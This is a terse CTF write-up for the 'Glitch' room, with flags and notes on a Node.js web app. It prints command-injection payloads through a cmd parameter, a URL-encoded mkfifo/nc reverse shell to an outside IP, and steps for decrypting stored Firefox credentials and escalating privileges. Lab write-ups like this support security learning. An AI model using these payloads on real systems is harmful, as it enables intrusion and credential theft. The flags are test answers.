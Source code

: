 # Glitch

Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?

## Notes
```
```

## Questions
1. What is your access token?
```
this_is_not_real
```

2. What is the content of user.txt?
```
using decoded access token as a cookie reaveals another endpoint
using POST method gives something interesting
fuzzing parameter gives error for cmd parameter
cmd can execute js

raw payloads
fs=require('fs');JSON.stringify(fs.readFileSync(__filename,{encoding:'utf8', flag:'r'}));

const { execSync } = require("child_process");
JSON.stringify(execSync('ls -al'));

?cmd=require('child_process').execSync(decodeURIComponent('ls -al /home'))

THM{i_don't_know_why}
```

3. What is the content of root.txt?
```
find suid binaries
vulnerability_exploited 
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su

REVERSE SHELL
/api/items?cmd=require('child_process').execSync(decodeURIComponent('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E9%2E18%2E129%209999%20%3E%2Ftmp%2Ff'))

stablalize shell

/home/user/.firefox directory
copy using nc
firefox_decrypt

su v0id
use doas

THM{diamonds_break_our_aching_minds}
```
